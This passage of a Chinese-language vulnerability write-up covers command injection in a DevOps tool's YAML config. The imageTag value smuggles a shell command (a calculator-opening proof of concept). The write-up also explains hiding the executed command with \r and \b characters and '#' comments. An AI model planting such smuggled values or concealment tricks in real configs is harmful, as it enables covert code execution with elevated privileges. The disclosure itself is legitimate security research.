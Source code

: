 ```
gitlab-ce-docker_default:
  name: gitlab-ce-docker
  instanceid: default
  dependson: []
  options:
    gitlabHome: /tmp
    hostname: gitlab.example.com
    httpPort: 80
    httpsPort: 443
    imageTag: 'rc;open /System/Applications/Calculator.app #'
    rmDataAfterDelete: false
    sshPort: 22
  resource:
    ContainerRunning: true
    Hostname: gitlab.example.com
    PortPublishes:
      - hostport: 22
        containerport: 22
      - hostport: 443
        containerport: 443
      - hostport: 80
        containerport: 80
    Volumes:
      - /tmp/config
      - /tmp/data
      - /tmp/logs

2022-11-16 18:57:12 ℹ [INFO]  -------------------- [  Processing done.  ] --------------------
2022-11-16 18:57:12 ✔ [SUCCESS]  All plugins applied successfully.
2022-11-16 18:57:12 ✔ [SUCCESS]  Apply finished.
```

执行完毕后会发现 计算器会被弹出 并且 其实会执行多次指令 这里有一次 continue 需要使用 y 来确认 但是除非开启 debug 模式并且对内容进行审计 不然根本不会发现被注入了一段恶意的 Payload 当受害者盲目的 输入 y 之后 接下来就会执行我们的恶意指令并且运行 docker 

> 如果进行计数，在执行 apply 后会执行两次 命令 （docker gitlab 的容器没有启动的时候）
>
> init 只会对插件进行下载

### 特殊技巧

由于对于这些指令的 print 的参数，其实是我们可控的 。所以，我们可以通过 `\r\b` 之类的字符（也可以强行注入 ascii 编码）来 rewind 回到行首或者退格，进而达到对命令执行掩盖和去除， 用户可能会略感到异常但也只是异常。

尤其是 debug 模式没有开启的时候，用户看到命令的同时基本就已经被执行了。

同时我们还可以使用 `#` 来进行 shell 的注释，从而消除上述特殊字符被 shell 解释执行导致报错的可能。

### 危害与影响

**首先配置文件本身并没有被项目做权限检查（例如 ssh 下 id_rsa 权限）存在可以被其他平级乃至是低权限用户修改的可能。因此提供了一种从文本写入到命令执行的攻击向量。**

其次，项目多处使用了 `docker` `kubectl` 。这类需要 root 或者 docker 组的权限的用户进行执行。**因此往往 dtm 是被高权限使用的。**
